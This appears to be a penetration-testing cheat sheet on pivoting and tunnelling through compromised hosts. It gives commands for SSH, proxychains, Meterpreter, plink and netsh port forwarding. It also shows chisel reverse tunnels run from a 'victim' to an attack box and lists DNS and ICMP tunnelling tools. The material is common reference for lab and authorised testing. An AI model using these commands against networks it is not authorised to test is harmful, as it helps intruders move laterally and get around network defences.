 # Pivoting/Tunneling

## Check if your tunnel is active and running

`nc -z localhost <port> || echo 'no tunnel open'`
`netstat -lpnt | grep <port>| grep ssh`
`ps aux | grep ssh`

## SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: `ssh -D localhost:<local port> -f -N user@localhost -p <Target Port>`
2. Setup ProxyChains. Edit the following config file `/etc/proxychains.conf`
3. Add the following line into the config: `Socks5 127.0.0.1 <Local Port>`
4. Run commands through the tunnel: `proxychains <command>`

### SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

`sshuttle -r root@172.21.0.0 10.2.2.0/24`

## Meterpreter

Use only if you have a meterpreter shell and you need to pivot to another network.

### Portfwd

`meterpreter > portfwd add -l 80 -r 172.21.0.0 -p 80`

### Autoroute

In Metasploit:

1. `use post/multi/manage/autoroute`

```
msf5 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on.
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf5 post(multi/manage/autoroute) > 
```

2. `set session <avaliable session>`
3. `run`

### Metasploit Socks Proxy

1  auxiliary/server/socks4a                                  normal  No     Socks4a Proxy Server
2  auxiliary/server/socks5                                   normal  No     Socks5 Proxy Server
3  auxiliary/server/socks_unc                                normal  No     SOCKS Proxy UNC Path Redirection

## Ncat

### Ncat Http Proxy

`ncat -vv --listen 3128 --proxy-type http`

### Ncat Port Forwarder

1. `mknod pivot p`
2. `nc -l -p < port to listen on> 0<pivot | nc <target> <pivot-port> 1>pivot`

### Plink Port Forwarder on Windows:

plink in an interactive shell

```
plink.exe -ssh -L 0.0.0.0:4444:10.1.1.1:445 admin@10.10.1.1
plink.exe -ssh -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
plink.exe -ssh -D 127.0.0.1:8080 admin@10.10.1.1
```

plink in non interactive shell

```
cmd.exe /c echo y | plink.exe -ssh -l admin -pw password -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
```

netsh local port forwarding:

```
netsh interface portproxy add v4tov4 listenaddress=10.1.1.1 listenport:4444 connectaddress:10.1.1.1 connectport:3306
netsh advfirewall firewall add rule name="4444_to_3306" protocol=TCP dir=in localip=127.0.0.1 localport=3306 action=allow
```

From <https://werebug.com/pentest-cheatsheet/#port-forwarding>

## Cntlm

```
apt install cntlm
cntlm -u username@breakme.local -I proxy
export http://127.0.0.1:3128, export https://127.0.0.1:3128
chromium --proxy-server="http://127.0.0.1:3128"
```

## netsh port forwarding

```
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

## Proxy Binaries for Windows
Windows 10 has SSH (Thanks WSL!)
plink.exe (In Kali)

## Dymanic Port Forwarding

`ssh -N -D 127.0.0.1:1337 user@remotehost -p 22222`

The `-D` means dynamic. The `1337` is the port you proxy traffic through. With this you can setup a Socks proxy on your local machine to send traffic to port `1337`, thus said traffic will be sent through that port, and then through the remote host. `-N` is optional, it means do not execute a remote command. Specifying `127.0.0.1` is also optional. It'll default to `127.0.0.1`.

Via Putty:

![PT](PT.png)

## Port Forwarding

**Local port forwarding**

`ssh -N -L 0.0.0.0:4455:10.1.1.1:445 user@remotehost`

or

`ssh -L 8080:localhost:8080 user@remotehost`

The -L stands for local. First 8080 is port of your machine, 2nd 8080 is port of remote machine (doesn't have to be the same port). After successful ssh connection, if you request localhost:8080 (like from your browser, if you're trying to access a localling listening web server on the remote machine) that request will be send through that ssh tunnel to that remote host and you will be able to connect to that remote service. 
In other words, what this tunnel does is whatever request you sent to your localhost it will be forwarded to remote localhost.

**Remote port forwarding**
 `ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1`

**Socks5 with SSH**
 `ssh -N -D 127.0.0.1:8888 admin@10.1.1.1`


## Chisel

Typical use. Examples assume attack box is 10.10.14.3, client is running from 10.10.10.10.

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim:

|Command|Notes|
|---|---|
|`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80`|Listen on Kali 80, forward to localhost port 80 on client|
|`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80`|Listen on Kali 4444, forward to 10.10.10.240 port 80|
|`chisel client 10.10.14.3:8000 R:socks`|Create SOCKS5 listener on 1080 on Kali, proxy through client|

## Other Tools

- ssf: https://github.com/securesocketfunneling/ssf
- rpivot: https://github.com/klsecservices/rpivot
- hans (ICMP Tunneling): http://code.gerade.org/hans/
- Iodine (ICMP Tunneling over DNS): https://code.kryo.se/iodine/
- Dnscat2: https://github.com/iagox86/dnscat2
- Chisel: https://github.com/jpillora/chisel
- httptunnel: In Kali apt install httptunnel
- ligolo: https://github.com/sysdream/ligolo
- reGeorg: https://github.com/sensepost/reGeorg

## Other Resources

- https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
- https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/
- https://medium.com/maverislabs/proxyjump-the-ssh-option-you-probably-never-heard-of-2d7e41d43464